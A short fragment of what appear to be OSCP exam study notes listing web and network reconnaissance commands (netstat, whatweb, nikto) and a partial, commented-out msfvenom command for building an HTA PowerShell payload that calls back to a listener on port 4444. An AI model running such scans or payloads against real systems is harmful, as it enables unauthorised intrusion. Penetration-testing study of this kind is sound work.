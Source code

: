 # oscp
netstat -ntl
whatweb url
whatweb url -v 
nikto -host=
# msfvenom -p  LHOST=IP LPORT=4444 -f hta-psh -o 
